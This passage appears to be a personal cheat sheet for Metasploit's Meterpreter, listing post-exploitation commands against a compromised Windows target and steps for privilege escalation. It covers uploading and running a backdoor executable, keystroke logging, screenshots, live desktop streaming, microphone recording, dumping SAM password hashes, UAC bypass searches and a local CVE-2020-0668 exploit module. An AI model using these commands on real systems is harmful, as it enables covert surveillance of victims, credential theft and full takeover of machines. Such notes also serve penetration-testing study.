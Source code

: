 	$ upload ratbackdoor.exe - can also upload other tools

	$ shell - will execute the uploaded file

	$ rmdir or rm - to delete a directory or file

	$  cp password.txt TestDirectory - to copy a file into a specific directory - if not working, Priviledge Escalation might be needed

	$ arp - see arp table

	$ ifconfig - see network interfaces

	$ netstat - will print all the connections that the target system currently has

-- system commands

	$ execute -f calc - to start the calculator on target ; will show the Process ID

	$ ps - will list all the processes running on target

	$ kill 8412 - kill a Process ID

	$ reboot

	$ shutdown

	$ sysinfo - retrieves information about the target system

	$ mouse move 640 860 - controle mouse pointer position

	$ keyscan_start - will start logging key strokes

	$ keyscan_dump - dumps logged keystrokes

	$ keyscan_stop - stops capturing keystrokes

	$ screenshot - will grab and save a screenshot of the target system ; will save in /root on attacker system

	$ screenshare - see remote desktop in realtime ; will stream the target desktop ; can be buggy

	$ record_mic -d 10 - will record microfone for 10s and will save in /root

	$ getsystem - will attempt to get System privileges - will fail most of the time

	$ hashdump - will dump SAM hashes


## Privilege escalation Windows

	$ msfconsole

	$ search bypassuac - will show all User Account Bypasses that are available ; most of them were patched but for an outdated system will work

	$ search 2020 - list all modules of the year 2020

	* we are searching for a /local/ exploit for priviledge escalation

	$ use exploit/windows/local/cve_2020_0668_service_tracing

	$ show info
